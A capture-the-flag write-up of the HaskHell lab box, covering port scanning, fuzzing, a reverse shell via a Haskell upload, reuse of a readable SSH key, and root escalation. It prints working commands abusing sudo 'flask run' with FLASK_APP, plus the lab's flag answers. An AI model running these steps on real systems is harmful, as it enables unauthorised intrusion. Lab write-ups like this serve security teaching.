








## TL;DR

In this challenge we first grab reverse shell using `haskell` code execution.

We move to user `prof` using private ssh key of him with read permissions.

Finally, we move to root using `sudo` on `flask run`, and we can also edit the flask files.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `5001` with gunicorn WSGI http server
```bash
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD6azVu3Hr+20SblWk0j7SeT8U3VySD4u18ChyDYyOoZiza2PTe1qsuwnw06/kboHaLejqPmnxkMDWgEeXoW0L11q2D8mfSf8EVvk++7bNqQ0mlkjdcknOs11mdYqSOkM1yw06LolltKtjlf/FpT706QFkRKQO30fT4YgKY6GD71aYdafhTBgZlXA51pGyruDUOP+lqhVPvLZJnI/oOTWkv5kT0a3T+FGRZfEi+GBrhvxP7R7n3QFRSBDPKSBRYLVdlSYXPD83P1pND6F/r3BvyfHw4UY0yKbw+ntvhiRcUI2FYyN5Vj1Jrb6ipCnp5+UcFdmROOHSgWS5Qzzx5fPZB
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMx1lBsNtSWJvxM159Ahr110Jpf3M/dVqblDAoVXd8QSIEYIxEgeqTdbS4HaHPYnFyO1j8s6fQuUemJClGw3Bh8=
|   256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICPmznEBphODSYkIjIjOA+0dmQPxltUfnnCTjaYbc39R
5001/tcp open  http    syn-ack ttl 62 Gunicorn 19.7.1
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
|_http-title: Homepage
|_http-server-header: gunicorn/19.7.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `haskhell.thm` to my `/etc/hosts`

### Execute reverse shell using haskell compiler

I opened the website and found this instructions page:



I tried to go to `/upload`, which is the hyper link, but I got back 404 Not Found. Then, I moved to fuzzing:
```bash
┌──(agonen㉿kali)-[~/thm/HaskHell]
└─$ ffuf -u 'http://haskhell.thm:5001/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/big.txt -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://haskhell.thm:5001/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

submit                  [Status: 200, Size: 237, Words: 48, Lines: 9, Duration: 155ms]
```

Okay, let's go to `/submit`. We find the uploading page



I tried to upload the file `hello.hs`:
```haskell
main :: IO ()
main = putStrLn "Hello, World!"
```



It looks like it did upload the file and executed it. I googled and found reverse shell [https://github.com/passthehashbrowns/Haskell-Reverse-Shell](https://github.com/passthehashbrowns/Haskell-Reverse-Shell), So I used it and modify it, changed IP and port:
```haskell

```

Don't forget to set the listener on you local machine:
```bash
nc -nvlp 1337
```



I pasted the payload of penelope fro easier reverse shell



we can grab the user flag:
```bash
flask@haskhell:/home/prof$ cat user.txt 
flag{academic_dishonesty}
```

### Move to user prof using private ssh key found

I walked around the server, and found the private key of the user `prof` located at `/home/prof/.ssh/id_rsa`, with read permissions.
```bash
flask@haskhell:/home/prof$ ls -la /home/prof/.ssh/id_rsa
-rw-r--r-- 1 prof prof 1679 May 27  2020 /home/prof/.ssh/id_rsa
```

I downloaded the file and used it to login into user `prof`. Don't forget to execute `chmod 600 id_rsa`, for read only.
```bash
ssh prof@haskhell.thm -i id_rsa
```



### Privilege Escalation to Root using sudo on flask run

I checked for sudo permissions, we can execute `flask run` without password (and also didn't need password to check our sudo permissions, because all the rules are NOPASSWD):
```bash
prof@haskhell:~$ sudo -l                                                                                                               
Matching Defaults entries for prof on haskhell:                                                                                        
    env_reset, env_keep+=FLASK_APP, mail_badpass,                                                                                      
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                           
                                                                                                                                       
User prof may run the following commands on haskhell:                                                                                  
    (root) NOPASSWD: /usr/bin/flask run
```

Anyway, that's very bad, because we can change the `app.py` file located at `flask` home folder:
```bash
flask@haskhell:~$ ls -la
total 60
drwxr-xr-x 6 flask flask 4096 May 27  2020 .
drwxr-xr-x 5 root  root  4096 May 27  2020 ..
-rw-r--r-- 1 root  root  4941 May 27  2020 app.py
-rw-r--r-- 1 flask flask 5300 May 27  2020 app.pyc
-rw-r--r-- 1 flask flask  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 flask flask 3771 Apr  4  2018 .bashrc
drwx------ 2 flask flask 4096 May 27  2020 .gnupg
drwxrwxr-x 3 flask flask 4096 May 27  2020 .local
-rw-r--r-- 1 flask flask  807 Apr  4  2018 .profile
drwxrwxr-x 2 flask flask 4096 May 27  2020 __pycache__
-rw------- 1 flask flask   38 May 27  2020 .python_history
-rw-rw-r-- 1 flask flask   66 May 27  2020 .selected_editor
drwxrwxr-x 2 flask flask 4096 Jan 28 13:35 uploads
```

Notice that although we can't modify `app.py`, we can delete it and create new one because we control the folder as user `flask` (which was the first user we obtained.)

However, we don't need to go there, we can see another rule at the `sudo -l`:
```bash
env_keep+=FLASK_APP
```

We can simply execute these lines:
```bash
prof@haskhell:~$ export FLASK_APP=/tmp/app.py                                                                                          
prof@haskhell:~$ echo -e 'import os; os.system("/bin/bash")' > /tmp/app.py                                                             
prof@haskhell:~$ sudo /usr/bin/flask run
```

Now, we got root shell :)



and the root flag:
```bash
root@haskhell:~# cat /root/root.txt                                                                                                    
flag{im_purely_functional}
```